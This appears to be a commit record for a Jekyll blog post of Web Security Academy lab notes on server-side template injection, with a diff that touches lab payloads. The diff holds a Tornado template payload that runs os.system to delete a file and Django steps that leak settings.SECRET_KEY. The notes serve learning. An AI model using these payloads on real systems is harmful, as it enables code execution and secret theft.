

Before and after one commit to phisabella/phisabella.github.io, a Jekyll site: the page built from _posts/2021-06-16-WSAcademy-17-SSTI.markdown, in a window 1280 px wide and 900 px high, scrolled down 6643 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2021-06-16-WSAcademy-17-SSTI.markdown

````diff
--- a/_posts/2021-06-16-WSAcademy-17-SSTI.markdown
+++ b/_posts/2021-06-16-WSAcademy-17-SSTI.markdown
@@ -182,7 +182,7 @@
 
 lab2：
 PYTHON Tornado template
-blog-post-author-display=user.name } } { % 25+import+os+%25 } { { os.system('rm%20/home/carlos/morale.txt')
+blog-post-author-display=user.name } } { % 25+import+os+%25 } { { os.system('rm%20/home/carlos/morale.txt')   （去掉空格）
 ```
 
 #### Read about the security implications
@@ -281,7 +281,7 @@
 
 	lab：
 	Python Django framework
-	1. {% debug %}
+	1. { % debug % }     （去掉空格）
 	2. find settings
 	3.{{settings.SECRET_KEY}}
 ## Create a custom attack
````
